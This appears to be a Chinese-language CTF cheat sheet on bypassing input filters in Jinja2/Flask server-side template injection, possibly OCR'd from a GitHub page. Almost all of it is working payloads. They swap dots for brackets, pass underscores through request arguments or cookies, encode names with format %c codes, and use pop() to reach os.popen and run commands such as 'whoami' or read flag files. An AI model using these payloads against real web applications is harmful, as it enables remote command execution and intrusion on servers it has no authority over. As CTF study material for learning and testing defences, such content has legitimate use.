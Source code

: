 ## 过滤 .

 标准的python语法使用点`.`外，还可以使用中括号`[]`来访问变量的属性 

```python
{{config['__class__']['__init__']['__globals__']['os']['popen']('type flag')['read']()}}
```

## 过滤  _

​	用`request['args']`或者 `request['values']`或者`request['cookies']`绕过

> https://blog.csdn.net/u011146423/article/details/88191225

```python
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('flag').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

或者

```python
{{ ''[request.cookies.class][request.cookies.mro][2][request.cookies.subclasses]()[40]('flag').read() }}

cookie: subclasses=__subclasses__;class=__class__;mro=__mro__
```

> tips 传多个cookie用;分割

或者利用模板过滤器format

```python
config["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95) ]['%c%c%c%c%c%c%c%c'|format(95,95,105,110,105,116,95,95)]['%c%c%c%c%c%c%c%c%c%c%c'|format(95,95,103,108,111,98,97,108,115,95,95)]['os'].popen('whoami').read() 
```

## 过滤  []

用pop()

```python
pop(key[,default])
参数
key: 要删除的键值
default: 如果没有 key，返回 default 值
删除字典给定键 key 所对应的值，返回值为被删除的值。key值必须给出。 否则，返回default值。
```

但是由于pop会删除这里面的键,不方便测试,所以不建议用

```python
{{ config.__class__.__init__.__globals__.pop('os').popen('whoami').read() }}
```

别的替代:  **get**和**setdefault** 
